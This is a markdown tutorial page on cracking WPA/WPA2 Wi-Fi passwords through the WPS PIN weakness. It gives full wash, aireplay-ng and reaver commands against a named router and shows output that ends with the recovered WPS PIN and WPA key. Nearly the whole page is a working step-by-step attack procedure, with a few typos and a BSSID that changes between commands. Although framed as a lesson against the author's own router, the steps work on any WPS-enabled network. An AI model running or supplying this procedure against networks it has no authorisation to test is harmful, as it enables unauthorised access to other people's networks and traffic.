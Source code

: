 ```yaml
---
title: Hacking WPA and WPA2 Without a Wordlist
type: default
layout: page
---
```


Now that we know what WPS is and how it can be used to recover the password for
WPA and WPA2 networks, let's see how to do that in practise.

Usually, we use airodump-ng to see all the networks around us, but now we want
to see the networks that have WPS enabled. We will be using a tool called _wash_
to display all the networks around us that have WPS enabled. So, let's execute:

```bash
wash --interface wlp2s0mon
```

What that command does, is execute a tool called _wash_ and we are also
specifying our wireless interface set in monitor mode, in my case _wlp2s0mon_.
If we execute that command, we should get an output like the following:

```bash
Wash v1.4 WiFi Protected Setup Scan Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

BSSID                  Channel       RSSI       WPS Version       WPS Locked        ESSID
---------------------------------------------------------------------------------------------------------------
9C:C8:FC:4D:10:CA      6              -53       1.0               No                TIGO-7A54
```

As you can see, _wash_ returned one network _TIGO-7A54_ which is my target
network, that means, that it has WPS on.

Its output shows us several important things, such as the value of "_WPS
Locked_" which tell us whether WPS is locked or not because sometimes WPS locks
after a number of failed attempts, if its value is "No" it means that we can go
ahead and try to guess the PIN. It also gives us the version WPS, it is using
the version 1.0 and it shows some other values we already know, such as the
_Channel_ and the _BSSID_.

Now that we know our target uses WPS, there is a good chance that this attack
will work against it, the only reason it could fail is if the target uses _PBC_
or _Push Button Authentication_, if it does, it will refuse all the entered
PINs unless the button is pressed on the router. The only way to know if it uses
_PBC_ is so try this attack and see if it works.

First, we'll need to copy the BSSID of our network (in my case it is
_9C:C8:FC:4D:10:CA_) and we'll also need to be associated with the network using
a _Fake Authentication Attack_, we already did this before and we are going to
use the exact same command.

We are going to use _aireplay-ng_ and we are going to tell it that we want to
perform a Fake Authentication attack so we specify the argument _--fakeauth_, we
are going to give it the delay, this is basically the time to wait between
association attempts, previously we set it to 0 and we had to run this command
manually every now and then, now I am going to set it to 30 so we will associate
with the target network every 30 seconds, then we'll use the _-a_ argument to
set the MAC address of my target network and _-h_ to set the MAC of my wireless
adapter. The command looks like this:

```bash
aireplay-ng --fakeauth 30 -a 9C:C8:FC:4D:10:CA -h 80:C5:F2:6B:50:8D wlp2s0mon
```

The command is ready we are not going to execute it yet. Open another terminal
and run _reaver_ which is the program that will bruteforce (_guess_) the PIN for
us and only then, we'll associate with the network, because otherwise
_aireplay-ng_ will fail to associate with my network.

In the another terminal, we will execute _Reaver_ which is the program that will
bruteforce the PIN, it's going to try every possible PIN until it gets the right
one and once it has the right PIN, it will use it to compute the WPA key.

Using _Reaver_ is very simple, first, we'll type the program name (_reaver_)
then we'll use the _--bssid_ argument to set the BSSID of our target network,
then, we'll use the _--channel_ argument, to specify the channel in which our
target is being executed, then we'll use the _--interface_ argument to set the
name of our interface in monitor mode. That command looks like this:

```bash
reaver --bssid 9C:C8:FC:4F:10:CA --channel 6 --interface wlp2s0mon
```

Other than that, we'll append two more arguments which are _-vvv_ to show us as
much information as possible (also known as _verbose mode_) and we'll also
append _--no-associate_ to tell _Reaver_ not to associate with the target
network because we are going to do it manually. Reaver can automatically
associate with the network but it usually fails a lot, therefore, it is better
to associate to the network manually. The final command looks like this:

```bash
reaver --bssid 9C:C8:FC:4F:10:CA --channel 6 --interface wlp2s0mon -vvv --no-associate
```

Now, we are going to execute the _reaver_'s command and then, we'll associate
ourselves with the network. A portion of the _reaver_'s output looks like this:

```bash

Reaver v1.6.1 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlp2s0mon to channel 6
[+] Waiting for beacom from 9C:C8:FC:4F:10:CA
[+] Associated with 9C:C8:FC:4F:10:CA (ESSID: TIGO-7A54)
[+] Trying pin "12345670"
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[!] WARNING: Receive timeout occurred
[+] Sending WSC NACK
[!] WPS transaction failed (code: 0x02), re-trying last pin

```

Once it finds the PIN you'd get an output like the following:

```bash
[+] Trying ping "12345670"
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M5 message
[+] Sending M6 message
[+] Received M7 message
[+] Sending WSC NACK
[+] Sending WSC NACK
[+] Pin cracked in 57 seconds
[+] WPS PIN: '12345670'
[+] WPA PSK: 'passw123'
[+] AP SSID: 'TIGO-7A54'
[+] Nothing done, nothing to save
```

As you can see, the PIN was 12345670, from that, it was able to discover the WPA
key which is "passw123" and the name of the router is "TIGO-7A54", so now we can
go ahead and connect with that password.
